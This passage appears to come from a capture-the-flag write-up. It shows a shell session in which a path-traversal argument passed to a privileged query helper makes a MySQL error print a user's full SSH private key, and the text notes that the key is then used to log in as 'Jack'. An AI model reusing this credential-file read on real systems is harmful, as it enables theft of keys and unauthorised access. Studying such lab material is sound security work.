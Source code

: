 ```shell
bash-5.1$ /opt/manage/execute_query 1337 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
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
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
bash-5.1$ 
```

By using the same method, we were able to access the contents of the user's SSH key and establish a connection to the system as the user `Jack`.
